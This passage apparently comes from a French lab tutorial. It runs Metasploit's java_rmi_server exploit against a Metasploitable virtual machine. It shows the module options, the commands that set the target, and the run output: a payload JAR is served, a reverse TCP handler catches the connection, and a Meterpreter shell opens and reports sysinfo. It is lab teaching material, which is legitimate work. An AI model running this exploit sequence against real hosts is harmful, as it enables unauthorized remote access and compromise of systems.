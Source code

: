 ```
  No

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  HTTPDELAY  10               yes       Time that the HTTP Server will wait for the payload request
  RHOSTS     192.168.56.115   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      35476            yes       The target port (TCP)
  SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT    8080             yes       The local port to listen on.
  SSL        false            no        Negotiate SSL for incoming connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                     no        The URI to use for this exploit (default is random)

[...]
```

#### Configurer les options :

```bash
msf6 exploit(multi/misc/java_rmi_server) > set RHOST 192.168.56.115
RHOST => 192.168.56.115

msf6 exploit(multi/misc/java_rmi_server) > set RPORT 1099
RPORT => 1099
```

#### Exécuter l'exploit

```bash
msf6 exploit(multi/misc/java_rmi_server) > run

[*] Started reverse TCP handler on 192.168.56.114:4444 
[*] 192.168.56.115:1099 - Using URL: http://0.0.0.0:8080/J9MvKpXba
[*] 192.168.56.115:1099 - Local IP: http://10.0.2.15:8080/J9MvKpXba
[*] 192.168.56.115:1099 - Server started.
[*] 192.168.56.115:1099 - Sending RMI Header...
[*] 192.168.56.115:1099 - Sending RMI Call...
[*] 192.168.56.115:1099 - Replied to request for payload JAR
[*] Sending stage (58125 bytes) to 192.168.56.115
[*] Meterpreter session 3 opened (192.168.56.114:4444 -> 192.168.56.115:51105) at 2021-01-26 10:30:19 +0000
[*] 192.168.56.115:1099 - Server stopped.

meterpreter > 
meterpreter > sysinfo
Computer    : metasploitable
OS          : Linux 2.6.24-16-server (i386)
Meterpreter : java/linux
meterpreter > 
```
